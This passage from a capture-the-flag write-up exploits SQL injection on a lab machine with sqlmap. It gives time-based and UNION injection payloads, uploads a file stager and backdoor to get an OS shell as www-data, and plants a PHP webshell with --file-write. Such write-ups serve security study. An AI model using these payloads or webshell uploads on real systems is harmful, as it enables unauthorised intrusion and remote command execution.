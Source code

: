     Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=1 AND (SELECT 6380 FROM (SELECT(SLEEP(5)))sIAL)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-3382 UNION ALL SELECT NULL,CONCAT(0x7176767871,0x724a4941577351594f52566f7673496e674b42744c4354476f78444c555252715565706d504c6474,0x7178717171),NULL,NULL,NULL,NULL,NULL-- AKaz
---
[19:22:26] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[19:22:26] [INFO] going to use a web backdoor for command prompt
[19:22:26] [INFO] fingerprinting the back-end DBMS operating system
[19:22:26] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
[19:22:28] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
[19:22:29] [INFO] retrieved web server absolute paths: '/images/'
[19:22:29] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[19:22:29] [WARNING] unable to upload the file stager on '/var/www/'
[19:22:29] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[19:22:29] [WARNING] expect junk characters inside the file as a leftover from UNION query
[19:22:29] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[19:22:30] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[19:22:30] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpusmti.php
[19:22:30] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpbescf.php
[19:22:30] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
os-shell> 
{% endhighlight %}

#### 4.2 --file-write way

A way that we use "--file-write" option of SQLmap.<br>
Upload a webshell and manually run commands by forging http requests.
{% highlight shell %}
root@kali:~# sqlmap -u http://10.10.10.143/room.php?cod=1 --random-agent --file-write /usr/share/webshells/php/simple-backdoor.php --file-dest /var/www/html/cmd.php
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org